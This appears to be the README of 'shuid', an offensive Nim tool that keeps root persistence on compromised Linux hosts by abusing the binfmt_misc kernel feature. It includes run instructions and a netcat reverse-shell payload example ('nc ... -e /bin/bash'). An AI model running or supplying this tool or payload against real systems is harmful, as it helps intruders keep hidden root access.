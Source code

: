 <div align=center>
<img src=./icon.png>
<pre><code><strong>Privileged persistence 
<br>without using noisy and detectable SUID 
<br>using <i>binfmt</i> Kernel feature instead</strong>
Also a good way to learn Nim and something new
</code></pre>
</div>

## Like at home! 🏡 <sup>(persistence)</sup>

* First transfer `shuid` on target
* Run it!<br><pre><code>./shuid</code></pre>

And that's all, **root shell** is obtained and process to obtain it again will be outputted 


##### More granular

You can choose which SUID will trigger your payload (`-c`). And, obviously, you can also custom the payload (`--payload`).
An example:
```shell
./shuid -c --payload "nc 127.0.0.2 -e /bin/bash"
```


## [Understand the trick](TRICK.md)


<div align=center>
<sup>
All credits goes to <a href= https://github.com/Sentinel-One/shadowsuid/>Dor Dankner</a>, <a href= https://github.com/toffan/binfmt_misc>toffan</a> and <a href= https://www.hackthebox.com/home/users/profile/590762>uco2KFH</a> 
</sup>
</div>
